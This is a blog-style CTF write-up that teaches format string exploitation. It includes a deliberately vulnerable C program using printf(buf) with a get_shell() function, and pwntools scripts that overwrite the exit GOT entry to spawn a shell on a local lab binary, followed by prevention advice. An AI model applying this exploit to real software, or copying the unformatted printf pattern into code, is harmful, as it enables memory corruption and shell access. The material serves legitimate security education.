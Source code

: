 ```yaml
---
layout: post
title:  "Exploiting Format String bug"
date:   2020-06-11
categories: ctf
description: Basic format string bug
tags: ctf-writeup hackthebox
---
```


did you know , we can write something on memory by using printf ? yes we can.
in this post i will try to explain how printf works and how we can exploit format string
vulnerability on printf()

### How printf() works

in C we can print something using printf , for example:
{% highlight C %}
#include <stdio.h>
void main(){
  int x = 1337;
  char buf[0xff] = "bro";
  printf("%d from %s" , x , buf);
}
{% endhighlight %}

if we compile the source code above, the output will be like this


<img src="/images/format-string/2020-06-11-193407_256x46_scrot.png" />

we can use some format for printf something

    %d  for integer
    %s  for char
    %l  for long int
    %ll   for long long int
    %p  for pointer in hexadecimal
    %o  for octal
    %x unsigned hexadecimal
    %n write something?

we can write some data on memory by using %n format for 4 byte and here is the other:

    hhn  : write 1 byte
    hn   : write 2 byte
    n    : write 4 byte

the exploit for 64bit and 32bit architecture is slightly different
because in 64bit we have to deal with null char "\x00" , for example

on 32bit our exploit will look like this:

    [padding][address]%[value]c%[index]$[write_type]

while on 64 bit our exploit will look like this:

    %[value]c%[index]$[write_type][padding][address]

as you can see , on 64bit architecture our address will placed at the end of the payload ,
it's because we are dealing with null char , for example if we want to write on address 0xdeadbabe

on 32bit ```0xdeadbabe``` will look like this:

    \xbe\xba\xad\xde

while on 64bit will look like this:

    \xbe\xba\xad\xde\x00\x00\x00\x00

on 64bit there is null char on the address , so we have to place the address at the end of the payload
because if printf found a null char '\x00' it will simply terminate to print , i assume you already know about little endian

### Exploitation

for example to exploit format string and doing arbitrary write on an address , this is a vulnerable program you can exploit
{%highlight c%}
#include <stdio.h>
#include <stdlib.h>

void get_shell(){
        system("/bin/sh");
}

void main(){
        char buf[100];
        read(0 , buf , sizeof(buf));
        printf(buf);
        exit(1);
}
{% endhighlight %}

compile the source with flags to compile it as 32bit architecture and disable pie protection:

    gcc source.c -o bug -no-pie -m32

as you can see , the bug is on printf , because we don't use any fomat to printf value from buffer , so we can simply
leak any value on the stack by input "%p"

<img src="/images/format-string/2020-06-11-202053_323x70_scrot.png" />

our goal is to overwrite GOT  exit() to get_shell() address by using format string bug ,
why exit ?  because if we look at the binary protection :

<img src="/images/format-string/2020-06-11-202816_291x131_scrot.png" />

because on 32bit architecture gcc will disable relro protection by default , so it's possible to us to overwrite GOT libc address
to somewhere on memory , in this case get_shell() , firstly we have to determine our input index on the stack

<img src="/images/format-string/2020-06-11-203741_495x65_scrot.png" />

according from the image above , our input is on index 6 in the stack , because ```0x41414141``` is our input```AAAA```
now we have to determine exit got address by using ```readelf```

<img src="/images/format-string/2020-06-11-204235_472x214_scrot.png" />

exit got address on ```0x0804c018``` now we have to determine get_shell() address

<img src="/images/format-string/2020-06-11-204543_648x398_scrot.png" />

get_shell on address ```0x080491F6``` , now we have to craft our exploit

{% highlight python %}
from pwn import *
exit_got = 0x0804c018
get_shell = 0x080491F6
r = process("./chall")
gdb.attach(r)

p = "AAAA"
p += p32(exit_got)
p += "%{}c%7$hhn".format((0x41 - 8) & 0xff)

r.sendline(p)
r.interactive()
{% endhighlight %}

so we want to write 0x41 on exit_got address , we use hhn because we only write 1 byte on memory ,
we have to substract by 8 , why 8 ? because we already write 8 byte on the stack ,
and AND with 0xff because we only write 1 byte on the memory
run the exploit and check the got address

<img src="/images/format-string/2020-06-11-205616_451x155_scrot.png" />


we successfully write 0x41 on exit got  , now we want to write 0x91f6 on exit_got address so we can jump
to get_shell() , our exploit should look like :

{% highlight python %}
from pwn import *
exit_got = 0x0804c018
get_shell = 0x080491F6
r = process("./chall")
gdb.attach(r)
p = "AAAA"
p += p32(exit_got)
p += p32(exit_got+1)
p += "%{}c%7$hhn".format((0xf6 - 12) & 0xff)
p += "%{}c%8$hhn".format((0x91 - 0xf6) & 0xff)

r.sendline(p)
r.interactive()
{% endhighlight %}

as you can see , we have to substract our write value by our last value , we got ```12``` becase
we already write 12 byte to stack and we want to write 0xf6 to exit_got address , after that
we substract 0x91 by - 0xf6 because we already write 0xf6 to exit_got address , and for 7 , we got 7
becuase ```AAAA``` is on index 6 so exit_got address will on index 7 and exit_got+1 on index 8

<img src="/images/format-string/2020-06-11-210815_598x540_scrot.png" />
<img src="/images/format-string/2020-06-11-211313_720x134_scrot.png" />

now we successfully overwrite exit got address to ```get_shell()```

### prevent format string bugs

to prevent this bug , you have to specify the format before print any data ,
because attacker can leak or write data on stack by using this bug , for example :
{% highlight c %}
printf("%s" , buf);
printf("%x",val);
printf("%d",val2);
{% endhighlight %}
